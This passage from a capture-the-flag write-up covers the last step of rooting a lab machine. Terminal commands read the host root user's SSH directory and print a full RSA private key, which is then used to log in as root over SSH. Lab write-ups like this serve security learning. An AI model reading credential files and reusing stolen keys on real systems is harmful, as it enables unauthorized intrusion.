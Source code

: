 Next, we execute `cd /mnt/realFileSystem/root/.ssh` to set the working directory to the `.ssh` directory of the `root` user. This directory usually contains configuration files for SSH as well as SSH credentials. We proceed to grab the private key of the `root` user by executing `cat id_rsa`, selecting the output and copying it from the terminal to a local file named "id_rsa".

{% highlight none linenos %}
root@gitlab:/var/opt/gitlab/gitlab-rails/working# @@cd /mnt/realFileSystem/root/.ssh@@
cd /mnt/realFileSystem/root/.ssh
root@gitlab:@@@/mnt/realFileSystem/root/.ssh@@@# @@ls -la@@
ls -la
total 20
drwx------  2 root root 4096 Dec  7  2020 .
drwx------ 10 root root 4096 Dec  7  2020 ..
-rw-------  1 root root  405 Dec  7  2020 authorized_keys
-rw-------  1 root root 1675 Dec  7  2020 @@@id_rsa@@@
-rw-r--r--  1 root root  405 Dec  7  2020 id_rsa.pub
root@gitlab:/mnt/realFileSystem/root/.ssh# @@cat id_rsa@@
cat id_rsa
@@@-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAvyovfg++zswQT0s4YuKtqxOO6EhG38TR2eUaInSfI1rjH09Q
sle1ivGnwAUrroNAK48LE70Io13DIfE9rxcotDviAIhbBOaqMLbLnfnnCNLApjCn
6KkYjWv+9kj9shzPaN1tNQLc2Rg39pn1mteyvUi2pBfA4ItE05F58WpCgh9KNMlf
YmlPwjeRaqARlkkCgFcHFGyVxd6Rh4ZHNFjABd8JIl+Yaq/pg7t4qPhsiFsMwntX
TBKGe8T4lzyboBNHOh5yUAI3a3Dx3MdoY+qXS/qatKS2Qgh0Ram2LLFxib9hR49W
rG87jLNt/6s06z+Mwf7d/oN8SmCiJx3xHgFzbwIDAQABAoIBACeFZC4uuSbtv011
YqHm9TqSH5BcKPLoMO5YVA/dhmz7xErbzfYg9fJUxXaIWyCIGAMpXoPlJ90GbGof
Ar6pDgw8+RtdFVwtB/BsSipN2PrU/2kcVApgsyfBtQNb0b85/5NRe9tizR/Axwkf
iUxK3bQOTVwdYQ3LHR6US96iNj/KNru1E8WXcsii5F7JiNG8CNgQx3dzve3Jzw5+
lg5bKkywJcG1r4CU/XV7CJH2SEUTmtoEp5LpiA2Bmx9A2ep4AwNr7bd2sBr6x4ab
VYYvjQlf79/ANRXUUxMTJ6w4ov572Sp41gA9bmwI/Er2uLTVQ4OEbpLoXDUDC1Cu
K4ku7QECgYEA5G3RqH9ptsouNmg2H5xGZbG5oSpyYhFVsDad2E4y1BIZSxMayMXL
g7vSV+D/almaACHJgSIrBjY8ZhGMd+kbloPJLRKA9ob8rfxzUvPEWAW81vNqBBi2
3hO044mOPeiqsHM/+RQOW240EszoYKXKqOxzq/SK4bpRtjHsidSJo4ECgYEA1jzy
n20X43ybDMrxFdVDbaA8eo+og6zUqx8IlL7czpMBfzg5NLlYcjRa6Li6Sy8KNbE8
kRznKWApgLnzTkvupk/oYSijSliLHifiVkrtEY0nAtlbGlgmbwnW15lwV+d3Ixi1
KNwMyG+HHZqChNkFtXiyoFaDdNeuoTeAyyfwzu8CgYAo4L40ORjh7Sx38A4/eeff
Kv7dKItvoUqETkHRA6105ghAtxqD82GIIYRy1YDft0kn3OQCh+rLIcmNOna4vq6B
MPQ/bKBHfcCaIiNBJP5uAhjZHpZKRWH0O/KTBXq++XQSP42jNUOceQw4kRLEuOab
dDT/ALQZ0Q3uXODHiZFYAQKBgBBPEXU7e88QhEkkBdhQpNJqmVAHMZ/cf1ALi76v
DOYY4MtLf2dZGLeQ7r66mUvx58gQlvjBB4Pp0x7+iNwUAbXdbWZADrYxKV4BUUSa
bZOheC/KVhoaTcq0KAu/nYLDlxkv31Kd9ccoXlPNmFP+pWWcK5TzIQy7Aos5S2+r
ubQ3AoGBAIvvz5yYJBFJshQbVNY4vp55uzRbKZmlJDvy79MaRHdz+eHry97WhPOv
aKvV8jR1G+70v4GVye79Kk7TL5uWFDFWzVPwVID9QCYJjuDlLBaFDnUOYFZW52gz
vJzok/kcmwcBlGfmRKxlS0O6n9dAiOLY46YdjyS8F8hNPOKX6rCd
-----END RSA PRIVATE KEY-----@@@
root@gitlab:/mnt/realFileSystem/root/.ssh#
{% endhighlight %}

![root](/assets/{{ imgDir }}/root.png)

After saving the private key in a local file named "id_rsa", we execute `chmod 600 id_rsa` to change the permissions of the file to "Reads and Writes only allowed for the owner of the file" since this allows us to use it with SSH. Then, we execute `ssh -i id_rsa root@10.10.10.220` to log in over SSH as the real `root` user!



